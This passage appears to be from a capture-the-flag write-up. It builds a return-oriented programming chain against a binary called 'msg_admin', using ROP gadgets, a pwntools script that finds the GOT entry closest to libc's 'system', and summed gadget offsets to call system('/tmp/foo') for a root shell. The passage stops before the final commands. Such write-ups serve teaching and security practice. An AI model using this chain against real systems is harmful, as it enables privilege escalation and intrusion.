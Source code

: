 The next gadget will give us a way of clearing `eax`. Note, this gadget wasn't visible from the default `ROPgadget` setting of `--depth 10`.

```
0x08048790 : mov eax, 0x804b074 ; sub eax, 0x804b074 ; ...gadgets that don't matter... ; ret
```

Our plan of attack will be as follows (spoiler alert, the same as pretty much every CTF ASLR bypass):

* Deference an entry in the GOT.
* Calculate the difference between the given entry and `system`.
* Add this difference to our dereferenced value.
* Call `system('/tmp/foo')` where /tmp/foo contains our commands.

Because we want to reduce the number of add offset instructions, let's try and find which GOT entry in `msg_admin` is closest to `system` in their libc.

```python
from pwn import *

elf = ELF('msg_admin')
libc = ELF('libc.so.6')

for symbol in elf.symbols:
    try:
        if libc.symbols[symbol] < libc.symbols['system']:
            print symbol, hex(libc.symbols['system'] - libc.symbols[symbol])
    except:
        pass
```

```
$ python find-good-addr.py 
__libc_start_main 0x26800
atol 0xe900
```

To make things a bit simpler, we will only be adding positive values to our GOT entry. Let's use the `atol` entry since it has the smallest difference to `system`.

Next we need to find offsets in our binary that when accumulated, equal `0xe900`. One possible list is below:

```
0x8048595 = 0xc6e8
0x8048dff = 0x2203
0x8048833 = 0x14
0x8048fb9 = 0x1
```

Now that we have our `system` offset, we only need one more gadget to execute it.

```
0x8048786 : call eax;
```

We noticed that the string `/tmp/foo` is found in the usage statement. Let's leverage that and use it as our command to execute. We need a command or two that, when executed as `root`, will give us a shell. One way to do this is below:

